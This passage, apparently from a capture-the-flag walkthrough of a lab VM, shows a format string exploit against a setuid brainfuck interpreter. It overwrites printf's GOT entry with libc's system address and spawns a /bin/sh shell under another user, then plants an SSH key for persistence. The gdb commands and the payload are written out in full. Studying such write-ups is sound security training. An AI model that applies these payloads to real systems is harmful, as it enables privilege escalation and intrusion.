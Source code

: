 As you can see, we have moved up 4 bytes on the lower part of the address, so we can simply take 4 off 8188 to fix that. To determine the upper part of the address though, we will do another hex calculation and remove the amount that we have from the amount that we want:

```bash calculating the upper part and fixing the offset
(gdb) shell echo $(python -c 'print 0x4006-0x2000')
8198 # output is a decimal value

(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8184u%16$n" + "%8198u%17$n")])')#"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8184u%16$n" + "%8198u%17$n")])')#"
H�J�                                                                                                                                                                                                               
Breakpoint 1, 0x080486eb in main ()
(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x40062000
(gdb)
```

w00t. We have rewritten the GOT for `printf` to the location of the libc `system` call using the format string vulnerability. Phew.

###/opt/bf - part5

Now, all that is left is to get the `printf` to rerun (using the `#`) with a payload such as `/bin/sh`. We will append the `/bin/sh` to the end and just add another `#` to call `printf` (which is now overridden):

```bash Exploiting bf
delacroix@xerxes2:~$ /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8184u%16$n" + "%8198u%17$n" + ";/bin/sh")])')##"
H�J�                                                                                                                                                                                                              d
$ id
uid=1002(delacroix) gid=1002(delacroix) euid=1001(polito) egid=1001(polito) groups=1001(polito),1002(delacroix)
$
```

Oly. Crap. That. Was. Awesome. :D :D

We have just exploited a format string vulnerability on a binary that has the NX bit set, encoded with brainfk using ret2libc.

##becoming korenchkin
We just got a shell with a euid for `polito`. To make life easier, I copied the public key I generated earlier for the first shell into `polito`'s home, and SSH'd in as that user.

At first glance, it appeared as if we have a gpg encrypted `dump` and a pdf. There was also a cronjob to start a netcat server piping a text file out via tcp/4444 (remember the mp3 form earlier? :D)
